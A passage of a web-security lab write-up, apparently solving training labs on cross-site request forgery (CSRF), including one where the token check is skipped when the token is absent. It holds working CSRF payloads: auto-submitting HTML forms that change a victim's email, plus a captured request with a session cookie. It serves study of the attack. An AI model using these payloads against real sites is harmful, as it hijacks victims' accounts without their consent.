 Yep, that'll work and CSRF token won't get checked.

Following Payload can be applied which will cause GET request to be sent from the victim

```html
<form action="https://0ae500a50484da0fc20b17a4007600fe.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything@web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>
```

# CSRF where token validation depends on token being present
> This lab's email change functionality is vulnerable to CSRF.
> 
> To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
> 
> You can log in to your own account using the following credentials: `wiener:peter`

Only difference here compatered to previous labs is that when we remove csrf token entirely, we'll be able to change the email. 

CSRF token will not be checked if not present in the request.

In order to solve the lab, we have to login, change the email, capture that request and remove the CSRF parameter from the POST request.

```
POST /my-account/change-email HTTP/1.1
Host: 0a4a002e04958d54c160c28800b500a0.web-security-academy.net
Cookie: session=Uj3Z174TrfQHhs4Ba9POcmOSyE8htiUX
...
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: https://0a4a002e04958d54c160c28800b500a0.web-security-academy.net
Referer: https://0a4a002e04958d54c160c28800b500a0.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
...
Te: trailers
Connection: close

email=asdd%40normal-user.net
```

This is what we'll deliver to the victim using `Deliver exploit to victim` button on our exploit server.

```html
<form method="POST" action="https://0a4a002e04958d54c160c28800b500a0.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything@web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>
```
